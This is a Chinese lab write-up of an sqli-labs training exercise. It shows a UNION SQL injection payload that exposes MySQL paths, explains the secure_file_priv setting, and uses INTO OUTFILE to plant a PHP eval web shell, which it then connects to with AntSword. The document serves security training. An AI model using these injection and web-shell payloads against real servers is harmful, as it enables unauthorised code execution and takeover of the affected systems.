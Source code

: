 phpstudy 就是...\PhpStudy20180211\PHPTutorial\WWW\

xammp 就是...\xampp\htdocs

payload 通过先前的关卡知道绝对路径

```
Less-2/?id=-1 union select 1,@@basedir,@@datadir --+
```

![image-20201110154240689](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110154240689.png)

show variables like '%secure%';

![image-20201110160234846](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110160234846.png)

`secure_file_priv`这个参数用来限制数据导入和导出操作的效果，例如执行`load data`、`into outfile`语句和`load_file()`函数,这些操作需要用户具有`file`权限。

> **1**. 如果这个参数为空，这个变量没有效果。
>  **2**. 如果这个参数设为一个目录名，Mysql服务只允许在这个目录中执行文件的导入和导出操作。这个目录必须存在，MySQL服务不会创建它.
>  **3**. 如果这个参数为`null`，Mysql服务会禁止导入和导出操作。这个参数在MySQL 5.7.6版本引入。
>
> 

![image-20201110162137375](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110162137375.png)

原因 对应文件无写入权限

chmod 后

![image-20201110162304403](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110162304403.png)

测试写入文件

```
?id=1')) union select 1,2,'<?php @eval($_POST["cmd"]);?>' into outfile "\/var\/www\/html\/test.php"--+
```

![image-20201110162613365](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110162613365.png)

![image-20201110162638339](C:\Users\Heria.Chen.GAIAWORKS\AppData\Roaming\Typora\typora-user-images\image-20201110162638339.png)

![image-20201110162654973](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110162654973.png)

![image-20201110162802091](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110162802091.png)

蚁剑连接getshell

![image-20201110162742052](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110162742052.png)

![image-20201110162749225](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110162749225.png)

## 0X08Less-08
